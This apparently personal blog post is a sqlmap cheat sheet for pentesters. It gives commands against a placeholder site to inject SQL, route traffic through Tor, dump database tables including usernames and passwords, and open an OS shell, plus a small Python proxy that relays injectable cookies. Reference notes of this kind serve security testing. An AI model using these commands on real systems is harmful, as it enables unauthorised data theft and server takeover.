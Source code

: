 ```yaml
---
layout: post
title: SQLMap Notes
date: 2018-08-28 22:38 +0800
tags:
  - Security
---
```


SQLMap is a lazy tool for pentester to exploit databases.

{% include toc.html %}

### Basic

```shell
sqlmap -u "http://testsite.com/login.php"
sqlmap -u "http://testsite.com/login.php" --tor --tor-type=SOCKS5
sqlmap -u "http://testsite.com/login.php" --time-sec 15 # manually setting the return time
sqlmap -u "http://testsite.com/login.php" --random-agent
sqlmap -u "http://testsite.com/login.php" --data 'username=fuck&password=fuck'
sqlmap -u "http://testsite.com/login.php" -r request_template.txt -p the_parameter_name

```

### Dump

```shell
sqlmap -u "http://testsite.com/login.php" --dbs
sqlmap -u "http://testsite.com/login.php" -D site_db --tables
sqlmap -u "http://testsite.com/login.php" -D site_db -T users --dump # dump content of table user
sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns
sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump # dump only some columns

sqlmap -u "http://testsite.com/login.php" \
       --method "POST" --data "username=admin&password=admin&submit=Submit" \
       -D social_mccodes -T users --dump
```

### Shell

```shell
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --os-shell # get OS shell
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell # get SQL shell
```

### Proxy

Writing a tiny proxy for sqlmap

```python
import bottle, requests

sess = requests.session()

@bottle.get('/')
def index():
    sess.cookie.set('injectable_cookie_name', bottle.request.query('x'))
    return sess.get('http://the-target.url/').text

bottle.run(host='0.0.0.0', port=8888, server='paste')
```

### More

- https://github.com/aramosf/sqlmap-cheatsheet/blob/master/sqlmap%20cheatsheet%20v1.0-SBD.pdf
